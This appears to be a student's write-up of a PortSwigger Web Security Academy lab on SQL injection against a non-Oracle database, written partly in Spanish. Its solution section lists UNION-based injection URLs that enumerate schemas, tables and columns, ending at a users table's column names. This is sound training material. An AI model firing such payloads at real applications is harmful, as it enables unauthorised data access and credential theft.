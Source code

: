 # `LAB`: SQL injection attack, listing the database contents on non-Oracle databases

## Descripción:

 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- Muy similar a los laboratorios anteriores enfocados a diferentes RDBMS
- En este caso es llegar hasta el login con `adminsitrador`




## Solución:

````py
## Dumpear la base de Datos:
.web-security-academy.net/filter?category=-Pets' Union Select '1',schema_name FROM information_schema.schemata -- -
    #	information_schema
    #	public
    #	pg_catalog

## Dumpear el Nombre de las Tablas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
    # products
    # users_tcaine

## Dumpear el Nombre de las Columnas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users_tcaine' -- -
    # password_wyuxxb
    # username_fzanak
````
